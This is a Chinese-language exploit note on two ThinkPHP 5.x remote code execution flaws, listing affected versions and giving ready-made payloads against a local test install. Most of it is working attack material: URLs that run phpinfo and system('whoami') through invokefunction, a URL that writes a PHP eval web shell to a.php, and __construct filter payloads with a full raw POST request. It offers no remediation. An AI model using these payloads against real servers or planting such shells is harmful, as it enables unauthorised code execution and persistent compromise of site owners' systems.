

# 目录

##### 一、控制器名引起的RCE

##### 二、核心类Requests引起的RCE

### 一、控制器名引起的RCE

##### 公开时间：  

2018/12/09  

##### 影响版本：  

ThinkPHP 5.0系列 < 5.0.23
ThinkPHP 5.1系列 < 5.1.31

poc:  

```
http://127.0.0.1/tp5022/public/index.php?s=index/\think\app/invokefunction&function=phpinfo&vars[0]=1
```

exp:  

```
http://127.0.0.1/tp5022/public/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami
```

shell:  

```
http://127.0.0.1/tp5022/public/index.php?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=a.php&vars[1][]=<?php eval(@$_POST['a']);?>#shell地址http://127.0.0.1/tp5022/public/a.php
```

### 二、核心类Requests引起的RCE  

##### 公开时间：  

2019/01/11

##### 影响版本：  

5.0全系列，具体如下  

```
版本名  是否可被攻击  攻击条件
5.0.0   否           无
5.0.1   否           无
5.0.2   否           无
5.0.3   否           无
5.0.4   否           无
5.0.5   否           无
5.0.6   否           无
5.0.7   否           无
5.0.8   是           无需开启debug
5.0.9   是           无需开启debug
5.0.10  是           无需开启debug
5.0.11  是           无需开启debug
5.0.12  是           无需开启debug
5.0.13  是           需开启debug
5.0.14  是           需开启debug
5.0.15  是           需开启debug
5.0.16  是           需开启debug
5.0.17  是           需开启debug
5.0.18  是           需开启debug
5.0.19  是           需开启debug
5.0.20  否           无
5.0.21  是           需开启debug
5.0.22  是           需开启debug
5.0.23  是           需开启debug
5.0.24  否           无
```

exp：  

```
版本号：5.0.8~5.0.19s=whoami&_method=__construct&filter&filter=system版本号：5.0.20~5.0.23_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=whoami或_method=__construct&filter[]=system&server[REQUEST_METHOD]=whoami
```

具体请求包如下，留意下`Content-Type: application/x-www-form-urlencoded`  

```
POST /tp5022/public/ HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: think_var=zh-cn
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 65

_method=__construct&filter[]=system&server[REQUEST_METHOD]=whoami
```

   

  

